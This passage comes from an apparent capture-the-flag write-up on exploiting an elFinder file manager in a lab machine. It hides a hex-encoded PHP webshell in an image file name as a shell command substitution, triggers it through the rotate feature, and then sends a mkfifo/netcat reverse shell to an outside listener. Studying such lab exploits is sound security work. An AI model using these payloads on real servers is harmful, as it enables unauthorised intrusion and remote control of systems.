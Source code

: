 ```console
$ echo '<?php system($_GET["c"]); ?>' | xxd -p
3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a
```

So, our final payload for the file name will be:

```console
$(echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > shell.php).jpg
```

This payload will `echo` the hex-encoded `PHP` webshell and pipe it to `xxd`, which will decode it. We then use `> shell.php` to write the decoded output to a `shell.php` file on the server.

Now, let's rename our image with the payload.

![Web 80 Files Exploit Two](web_80_files_exploit2.webp){: width="1200" height="600" }

![Web 80 Files Exploit Three](web_80_files_exploit3.webp){: width="1200" height="600" }

After renaming the file, we can right-click on the image (with the name set to our payload) and select the `Resize & Rotate` option.

![Web 80 Files Exploit Four](web_80_files_exploit4.webp){: width="1200" height="600" }

Now, all we have to do is select the `Rotate` option, rotate the image, and click the `Apply` button.

![Web 80 Files Exploit Five](web_80_files_exploit5.webp){: width="1200" height="600" }

After that, we will see an error message indicating the rotate option failed, since our command will return nothing. It will attempt to run the `exiftran` command as such, and that will cause an error since the `".jpg"` file does not exist.

```console
exiftran -i -9 [...]/elFinder/files/.jpg
```

However, this means we were successful, and our payload has been executed.

![Web 80 Files Exploit Six](web_80_files_exploit6.webp){: width="1200" height="600" }

We can confirm this by making a request to our webshell at `http://files.lookup.thm/elFinder/php/shell.php`, and we are successful at executing commands.

```console
$ curl -s 'http://files.lookup.thm/elFinder/php/shell.php?c=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sending a reverse shell payload using `curl`.

```console
$ curl -s 'http://files.lookup.thm/elFinder/php/shell.php' --get --data-urlencode 'c=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```
{: .wrap }

With that, we got a shell in our listener, and after stabilizing it, we can see that it is as the `www-data` user.
